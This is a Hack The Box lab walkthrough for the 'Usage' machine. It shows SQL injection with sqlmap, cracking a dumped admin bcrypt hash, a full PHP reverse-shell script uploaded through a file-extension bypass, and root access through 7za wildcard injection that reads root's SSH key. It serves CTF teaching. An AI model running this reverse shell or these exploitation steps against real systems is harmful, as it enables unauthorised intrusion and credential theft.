



## Introduction

- **Name** : Usage
- **Author** : [rajHere](https://app.hackthebox.com/users/396413)
- **Difficulty** : Easy
- **OS** : Linux

## Foothold 

Here we go !

### Enumeration

Let's start a scan with **RustScan** : 
```bash
rustscan -a 10.10.11.18 -r 1-65535 -- -A -oN scan.txt
```

Look at the output :  
```bash
Nmap scan report for usage.htb (10.10.11.18)
Host is up, received reset ttl 63 (0.12s latency).
Scanned at 2024-04-17 21:49:01 CEST for 20s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0f8fdd304b807a063dd37dfd7eeca78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFfdLKVCM7tItpTAWFFy6gTlaOXOkNbeGIN9+NQMn89HkDBG3W3XDQDyM5JAYDlvDpngF58j/WrZkZw0rS6YqS0=
|   256 bd22f5287727fb65baf6fd2f10c7828f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHr8ATPpxGtqlj8B7z2Lh7GrZVTSsLb6MkU3laICZlTk
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Daily Blogs
| http-methods: 
|_  Supported Methods: GET HEAD
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
```


:warning: *Don't forget to add ``usage.htb`` in your ``/etc/hosts`` file !*


There are two open ports :
- 22 : *SSH* service
- 80 : *HTTP* service

The *SSH* service does not seem vulnerable so we will focus on port 80.


Open a web browser and go on ``http://usage.htb``.



This is a login form. We can also register our self.

Click on ``Admin``.
There is an ``admin`` subdomain, so add it in ``/etc/hosts`` file.


We could try basic credentials like ``admin:admin``, ``admin:password``, ... but it doesn't work.

Return on ``http://usage.htb``. There is a ``reset password`` option. Click on : 


Enter a random E-mail like ``random@random.com`` and its says that an email was sent to this address.


Now, try some injections to see if it is vulnerable. We can check if there is a SQL injection.
Enter a simple quote in the ``E-Mail Address`` field : 


We have a ``500 | SERVER ERROR``.

It is interesting. Continue with basic ``ORDER BY`` query like : ``' ORDER BY 36-- -`` and you will see that there is a SQL injection.

### SQL Injection

We could try to exploit this **SQLi** manually but here we will use **SQLMap** to be more efficient.

Save the **POST** request with **BurpSuite** and use this following command : 
```bash
sqlmap -r request.req --level=2 --risk=2
```

:warning: *Here, I increase the risk because the default payloads are not efficient.*

Wait a little : 
```bash
---------------------------------REDACTED----------------------------------
[22:21:32] [INFO] testing for SQL injection on POST parameter 'email'
[22:21:32] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:22:21] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[22:22:26] [INFO] POST parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable
---------------------------------REDACTED----------------------------------
```

There is a SQL Injection ! 

Enumerate the databases : 
```bash
sqlmap -r request.req --level=2 --risk=2 --dbs
```

Output : 
```bash
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

We will use ``usage_blog`` : 
```bash
sqlmap -r request.req --level=2 --risk=2 -D usage_blog --tables
```

Output : 
```bash
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```

Show the content of ``admin_users`` table :
```bash
sqlmap -r request.req --level=2 --risk=2 -D usage_blog -T admin_users --dump
```

Output : 
```bash
Table: admin_users
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
```

We have a user and a hash.

Use **Haiti** to check the type : 
```bash
[Apr 17, 2024 - 22:31:49 (CEST)] exegol-hackthebox /workspace # haiti '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2'
bcrypt [HC: 3200] [JtR: bcrypt]
Blowfish(OpenBSD) [HC: 3200] [JtR: bcrypt]
Woltlab Burning Board 4.x
[Apr 17, 2024 - 22:34:31 (CEST)] exegol-hackthebox /workspace #
```

It seems to be **Bcrypt**. 

Create a file with the hash and use **JohnTheRipper** to crack the password : 
```bash
[Apr 17, 2024 - 22:36:10 (CEST)] exegol-hackthebox /workspace # john --wordlist=/opt/rockyou.txt hash --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
whatever1        (admin)     
1g 0:00:00:04 DONE (2024-04-17 22:36) 0.2020g/s 327.3p/s 327.3c/s 327.3C/s runescape..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
[Apr 17, 2024 - 22:36:32 (CEST)] exegol-hackthebox /workspace #
```

We have the following credentials : ``admin:whatever1``.

## User part

Connect on admin panel with the previous credentials : 


Explore the website and check all available options.

The ``User setting`` option will be our entry point.


We can upload an avatar. If we try to upload a *php* file, it doesn't work.


### Bypass the protection

First, we need to create a *php* reverse shell. We'll use this one : 
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.225';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Rename the file with a ``.jpg`` extension ! 


Upload the file.


Use **BurpSuite** to intercept the request. Change the filename field to replace the **jpg** extension to ``.php`` : 


Start a listener with ``pwncat-cs -lp 1234``, forward the request and wait : 


:numb: *Connect with ssh thanks to the private key in .ssh folder !*

```bash
dash@usage:~$ id 
uid=1000(dash) gid=1000(dash) groups=1000(dash)
dash@usage:~$ ls -l
total 4
-rw-r----- 1 root dash 33 Apr 17 20:42 user.txt
dash@usage:~$ cat user.txt 
5cf605e963e-------6abcb2e093756d
dash@usage:~$
```

Now, we have the user flag ! 

## Privilege Escalation

We are logged as ``dash`` user. Check hidden files in his directory with ``ls -la``.
There is a ``.monitrc`` file : 
```bash
dash@usage:~$ cat .monitrc 
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert
-----------------------------REDACTED-------------------------------
```

Check if the password ``3nc0d3d_pa$$w0rd`` is used by other users on the system.

And yes, ``xander`` uses this password. Connect on his account with ``su xander``.

Look at *sudo* privileges with ``sudo -l`` : 
```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
xander@usage:~$
```


I don't know what it is, so execute the binary to see what is happening : 
```bash
xander@usage:~$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3):
```

There are 3 options available. Test all of them.

It seems that the first create a ``.zip`` archive. Maybe we could use *wildcard injection* to escalate.

Use **strings** to show some content of the binary : 
```bash
xander@usage:~$ strings /usr/bin/usage_management 
/lib64/ld-linux-x86-64.so.2
-------------------------REDACTED-----------------------
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
Password has been reset.
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 
Invalid choice.
-------------------------REDACTED-----------------------
```

The binary uses ``7za`` to create an archive.

Search on Internet if we can privesc with that.

I found this link : https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z

We are in the same case, so I think we could be able to obtain root access :

:warning: *You need to be logged as ``dash`` to write in ``/var/www/html`` !*

1) ``cd /var/www/html`` -> folder were this is being executed.
2) ``touch @id_rsa`` -> Try to read the private *ssh* key.
3) ``ln -s /root/.ssh/id_rsa id_rsa`` -> Create the symlink.


Now, return on ``xander`` session and execute  ``sudo /usr/bin/usage_management``




Create a new file with the private ssh key, change permissions to **600** and connect as root : 
```bash
ssh -i root_rsa root@usage.htb
```

And here we goooo !



Now, we can read the root flag.


## Conclusion

This box was really fun.

Thanks for reading !
